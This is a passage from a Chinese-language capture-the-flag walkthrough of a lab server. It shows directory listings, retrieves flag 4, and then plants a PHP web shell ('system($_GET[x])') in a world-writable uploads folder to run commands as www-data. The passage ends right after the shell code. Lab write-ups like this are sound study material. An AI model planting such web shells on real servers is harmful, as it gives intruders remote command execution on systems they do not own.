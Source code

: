 ```bash
drwxr-xr-x  22 root     root      4096 Jul  6  2016 lib
drwxr-xr-x   2 root     root      4096 Jul  6  2016 lib32
drwxr-xr-x   2 root     root      4096 Jul  6  2016 lib64
drwxr-xr-x   2 root     root      4096 Jul  6  2016 libx32
drwx------   2 root     root     16384 Jul  6  2016 lost+found
drwxr-xr-x   3 root     root      4096 Jul  6  2016 media
drwxr-xr-x   2 root     root      4096 Apr 20  2016 mnt
drwxr-xr-x   2 root     root      4096 Apr 20  2016 opt
dr-xr-xr-x 203 root     root         0 Aug 20  2023 proc
drwx------   3 root     root      4096 Aug 20  2023 root
drwxr-xr-x  26 root     root       920 Aug 20 09:18 run
drwxr-xr-x   2 root     root     12288 Jul  6  2016 sbin
drwxr-xr-x   2 root     root      4096 Apr 19  2016 snap
drwxr-xr-x   2 root     root      4096 Apr 20  2016 srv
dr-xr-xr-x  13 root     root         0 Aug 20  2023 sys
drwxrwxrwt   9 root     root      4096 Aug 20 09:17 tmp
drwxr-xr-x  12 root     root      4096 Jul  6  2016 usr
drwxr-xr-x  15 root     root      4096 Jul 14  2016 var
lrwxrwxrwx   1 root     root        29 Jul 14  2016 vmlinuz -> boot/vmlinuz-4.4.0-31-generic
lrwxrwxrwx   1 root     root        29 Jul  6  2016 vmlinuz.old -> boot/vmlinuz-4.4.0-28-generic
```

找到 flag4

```bash
bigtommysenior@CallahanAutoSrv01:/$ cd
bigtommysenior@CallahanAutoSrv01:~$ ls
callahanbak.bak  el-flag-numero-quatro.txt  LOOT.ZIP
bigtommysenior@CallahanAutoSrv01:~$ cat el-flag-numero-quatro.txt 
YAY!  Flag 4 out of 5!!!! And you should now be able to restore the Callhan Web server to normal
working status.

Flag data: EditButton

But...but...where's flag 5?  

I'll make it easy on you.  It's in the root of this server at /5.txt
```

查看根目录，发现根目录有个 `.5.txt` ，需要 `www-data` 的权限，也就是降权才能查看

```
-rwxr-x---   1 www-data www-data   520 Jul  7  2016 .5.txt
```

# 降权查看flag5

此时去看看网站的根目录，翻到一个 uploads 文件夹，而且权限是全局都有的

那么我直接在此文件夹下创建一个 shell.php 然后代码是`<?php phpinfo(); system($_GET[x]); ?>` 然后在web浏览器上执行

```php
<?php phpinfo(); system($_GET[x]); ?>
```
